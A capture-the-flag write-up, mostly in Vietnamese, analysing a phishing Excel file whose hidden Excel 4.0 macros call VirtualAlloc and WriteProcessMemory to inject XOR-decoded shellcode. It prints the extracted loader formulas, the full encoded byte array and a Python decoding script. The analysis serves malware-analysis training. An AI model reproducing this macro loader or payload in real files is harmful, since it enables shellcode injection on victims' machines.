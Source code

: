 ### Description 
> Intergalactic Federation stated that it managed to prevent a large-scale phishing campaign that targeted all space personnel across the galaxy. The enemy&#039;s goal was to add as many spaceships to their space-botnet as possible so they can conduct distributed destruction of intergalactic services (DDOIS) using their fleet. Since such a campaign can be easily detected and prevented, malicious actors have changed their tactics. As stated by officials, a new spear phishing campaign is underway aiming high value targets. Now Klaus asks your opinion about a mail it received from &quot;sales@unlockyourmind.gal&quot;, claiming that in their galaxy it is possible to recover it&#039;s memory back by following the steps contained in the attached file.

### Solution 
- Challenge cung cấp cho chúng ta 1 file excel chứa macro, tuy nhiên khi check bằng olevba thì không có gì.
- ![image](https://hackmd.io/_uploads/BJ_dBPpzyg.png)
- ![image](https://hackmd.io/_uploads/B1PwHw6MJl.png)
-  Mở trực tiếp trên máy ảo, ta thấy file này có 2 sheet.
-  Tại sheet macro1 có vài điểm rất đáng ngờ, có 1 vài lệnh gọi các thư viện từ hệ thống 
-  ![image](https://hackmd.io/_uploads/S1jz8vpzyx.png)
- Dùng 7z để extract tất cả các file có liên quan ra.
- ![image](https://hackmd.io/_uploads/BJyPUDpzJx.png)
- Đọc file vào xl/macrosheets/sheet1.xml ta thấy tất cả các mã macro đều nằm trong cặp <f></f> nên ta sử dụng strings + grep để lấy ra
- ![image](https://hackmd.io/_uploads/ByHePPafke.png)
```
┌──(kali㉿kali)-[~/Downloads/xl/macrosheets]
└─$ grep -oP '(?<=<f>)(.*?)(?=</f>)' sheet1.xml
SELECT(E1:G258)
CALL("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64)
SET.VALUE(C1, 0)
FOR("counter",0,772,2)
SET.VALUE(B1,CHAR(_xlfn.BITXOR(ACTIVE.CELL(),24)))
CALL("Kernel32","WriteProcessMemory","JJJCJJ",-1, A2 + C1,Β1, LEN(Β1), 0)
SET.VALUE(C1, C1 + 1)
SELECT(, "RC[2]")
NEXT()
WORKBOOK.ACTIVATE("Sheet1")

```
- Đọc nó, ta thấy đoạn mã sử dụng các giá trị từ ô E1 đến ô G258 trong sheet sau đó xor với 24 với bước nhảy là 2. Và cuối cùng là ghi data này vào memory.
- Oke, bây giờ tiến hành xử lý từng bước.
- ![image](https://hackmd.io/_uploads/BJ15_w6Gyg.png)
- Sử dụng word để định dạng nó lại 1 chút
- ![image](https://hackmd.io/_uploads/ByC7KPTGJe.png)
- ![image](https://hackmd.io/_uploads/SkmHtwazyl.png)
- ![image](https://hackmd.io/_uploads/SJ-LFv6fkg.png)
- Tiếp theo là viết script python để lấy dữ liệu ra 
```
array = [228,54,240,244,154,233,24,216,24,9,24,172,120,252,145,15,253,103,41,52,216,214,124,244,147,90,72,198,40,53,147,70,74,93,20,118,147,240,74,88,12,91,147,224,106,217,48,114,23,217,175,22,82,188,62,217,41,191,231,130,180,150,36,18,121,235,100,52,26,39,52,99,56,231,217,29,215,212,21,77,25,70,223,58,250,130,234,247,74,183,79,8,147,196,74,207,8,147,147,221,82,111,36,212,147,24,84,57,9,21,96,90,251,186,80,23,25,29,201,163,73,89,147,39,65,52,56,79,25,250,203,45,147,245,81,57,0,194,251,105,34,130,81,176,147,95,44,156,147,108,25,122,206,187,41,40,231,211,180,34,217,244,215,235,21,61,25,146,223,113,32,238,248,39,109,247,238,137,27,205,101,61,224,27,35,156,101,40,60,88,109,241,252,109,64,211,147,104,64,202,60,190,25,194,203,28,126,168,147,121,20,239,83,255,147,175,64,158,4,157,25,125,203,139,147,78,28,32,147,126,25,72,200,228,145,103,92,103,60,254,60,12,67,151,67,134,121,48,65,92,66,244,73,163,231,146,248,121,71,35,71,53,66,79,147,219,10,153,243,74,149,217,69,120,114,172,25,6,149,246,157,176,170,245,24,217,24,119,24,163,72,95,112,127,41,153,147,72,119,147,159,202,231,251,205,27,163,56,232,179,173,96,186,25,78,9,112,255,190,173,141,103,165,169,133,54,231,63,205,144,36,219,30,250,100,120,18,240,152,183,227,103,248,110,109,47,29,205,163,162,95,175,11,46,106,56,119,199,114,67,24,164,75,12,231,114,205,66,74,73,93,180,95,147,56,79,89,69,92,104,92,177,56,66,58,238,80,160,83,199,84,79,85,70,68,233,75,43,87,54,94,210,76,167,79,30,89,47,74,231,93,111,68,133,85,81,113,64,123,155,106,49,119,54,107,16,119,19,126,148,108,112,68,40,79,123,113,200,118,207,124,56,119,232,111,151,107,235,56,223,86,82,76,154,68,186,91,87,109,75,106,57,106,197,125,139,118,240,108,123,78,169,125,160,106,131,107,132,113,71,119,221,118,193,68,251,81,70,117,105,121,107,127,161,125,64,56,138,94,145,113,94,116,152,125,57,56,86,93,64,96,205,125,44,123,226,109,253,108,23,113,233,119,117,118,251,56,33,87,134,104,170,108,148,113,60,119,215,118,143,107,21,68,233,109,68,108,190,113,181,116,141,117,120,121,132,118,150,54,99,125,217,96,132,125,213,58,227,56,174,55,229,108,67,56,29,74,57,93,2,95,36,71,80,75,154,66,96,56,56,55,146,110,65,56,197,92,243,125,194,122,246,109,3,127,180,127,209,125,123,106,121,56,224,55,243,124,71,56,19,58,142,91,232,34,43,68,16,111,171,113,236,118,25,124,212,119,24,111,78,107,2,68,129,107,113,97,73,107,31,108,183,125,200,117,78,43,234,42,46,68,115,123,76,117,196,124,116,54,135,125,37,96,122,125,156,58,7,56,133,55,79,126,153,35,83,125,118,123,250,112,51,119,160,56,238,58,11,80,62,76,28,90,79,99,48,41,9,107,217,71,27,108,18,112,8,41,10,107,98,71,45,127,135,44,219,116,134,44,126,96,91,97,239,71,150,116,51,40,190,107,216,108,73,71,98,41,30,118,79,71,100,108,66,41,81,117,41,43,144,39,8,39,100,57,150,101,133,58,46,24,187]
for i in range(0, len(array), 2):
	char = int(array[i] ^ 24)
	print(char, end = ' ')
```
- ![image](https://hackmd.io/_uploads/rJxqaFPTGye.png)
> Flag : HTB{1s_th1s_g4l4xy_l0st_1n_t1m3??!}
